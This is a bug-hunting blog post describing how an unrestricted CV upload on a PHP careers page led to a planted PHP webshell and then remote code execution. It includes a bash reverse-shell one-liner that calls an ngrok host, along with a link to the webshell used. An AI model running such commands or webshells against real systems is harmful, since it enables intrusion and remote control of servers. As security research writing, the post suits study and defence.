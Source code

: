 ```yaml
---
title: "Remote Code Execution via File Upload"
layout: post
date: 2021-04-07 12:00
categories: blog
---
```


Obtain Remote Code Execution due to Unrestricted File Upload.

## Introduction
Remote Code Execution (RCE) is a critical vulnerability that allows unauthorized individuals to access and modify a computer or server from a remote location. This capability enables attackers to run arbitrary malicious software, also known as malware, on the targeted system.

## Identifying the Target
During the reconnaissance phase, I utilized Google dorks to find a target that had a responsible disclosure program. For the purpose of this article, let's refer to the target website as abc.com. Further investigation revealed that the target company owned seven subdomains, all integrated with the parent domain abc.com and offering various functionalities.

## Exploiting PHP-Based Website
Since the target website was predominantly built using PHP, I focused on finding a vulnerability that would allow me to upload a PHP file and gain a reverse shell. Interestingly, I discovered that the website had a career page where applicants could upload their resumes in PDF format.

### Directory Brute-Forcing
To begin, I conducted a directory brute-forcing operation using the dirsearch tool. This enabled me to identify directories on the website and gain a better understanding of its structure.

![Directory Brute-Forcing](/assets/images/blogs/RCE1/1.webp)

### Discovering Uploaded Files
During my investigation, I came across an "uploads" folder that contained all the documents uploaded by individuals applying for jobs through the career page.

![Index of Uploaded Files](/assets/images/blogs/RCE1/2.webp)

### Exploiting the CV Upload Functionality
I proceeded to the career page URL (https://www.abc.com/careers.php) to examine the CV upload functionality. However, I found that the application only performed file extension validation at the front end, leaving room for potential exploitation.

![Frontend File Extension Validation](/assets/images/blogs/RCE1/3.webp)

### Uploading the PHP Webshell
Taking advantage of the lax file extension validation, I downloaded a PHP webshell and successfully uploaded it.

![PHP Webshell Upload](/assets/images/blogs/RCE1/4.webp)

### Activating the Webshell
To trigger the PHP webshell, I accessed the location where the shell was uploaded.

![Webshell Activation](/assets/images/blogs/RCE1/6.webp)

### Expanding Control with Reverse Shell
At this point, the webshell was functioning correctly. To establish a reverse shell, I either uploaded a reverse shell or used the following command in the web shell console to access the system via port forwarding using ngrok services.

### PHP Webshell Repository
For reference, you can find the PHP webshell I used in this demonstration on my GitHub repository: [GitHub Repo](https://github.com/thevillagehacker/Bug-Hunting/blob/main/Rev-shell/php_web_shell.php)

## Obtaining a Reverse Shell
To acquire a reverse shell, the following steps were performed:

1. Enabled port forwarding.
2. Listened to the forwarded port using Netcat.

![Port Forwarding Setup with ngrok](/assets/images/blogs/RCE1/7.webp)

With the completion of port forwarding setup, I executed the following command in the webshell input field:

`bash -i >& /dev/tcp/0.tcp.ngrok.io/1000 0>&1`

![Executing Reverse Connection via Bash](/assets/images/blogs/RCE1/8.webp)

As a result, a successful reverse shell connection was established.

![Successful Reverse Shell](/assets/images/blogs/RCE1/9.webp)

## Conclusion
In this article, I demonstrated how an unrestricted file upload vulnerability on a PHP-based website could lead to Remote Code Execution (RCE). By exploiting the website's lax file extension validation, I successfully uploaded a PHP webshell and obtained a reverse shell, ultimately gaining unauthorized access to the system. Thank you for reading.

For more updates and insights, follow me on Twitter: [@thevillagehacker](https://twitter.com/thevillagehackr).